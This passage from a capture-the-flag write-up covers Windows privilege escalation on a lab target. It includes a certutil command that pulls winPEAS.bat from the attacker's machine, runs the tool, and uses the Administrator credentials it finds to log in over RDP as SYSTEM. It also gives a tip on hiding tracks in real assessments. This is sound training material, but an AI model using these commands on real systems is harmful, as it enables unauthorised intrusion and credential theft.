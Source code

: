 ### PrivEsc

Let's get `WinPEAS` on our target. I like to use `winPEAS.bat` and upload via my own machine, serving it with Python module `SimpleHTTPServer`. Then, I'll download in on target with the following command:

```text
certutil -urlcache -f http://10.11.27.240/winPEAS.bat winPEAS.bat
```
NB : make sure to use a writable folder, such as: `C:\Users\Public`.

and we run it with :

```text
winPEAS.bat log
```
the `log` switch will save output to a log file and display it. Since we are training, there is no problem in saving the log in the remote machine. However, on a real assessment where you could have to hide you tracks, it might be better to simply print the log and copy it manually in order to save it outside the target. In any case, like with scanning tools, it is preferred to run the tool only once and save output. It will make you "quieter", which is want you probably want.

WinPEAS will reveal some `Administrator credentials` :

![HackPark Admin Pass](/images/2021/02/HackPark_Admin_Pass.png)

We try them in RDP, and boom! We are in as `SYSTEM` :

![HackPark Admin RDP](/images/2021/02/HackPark_Admin_RDP.png)
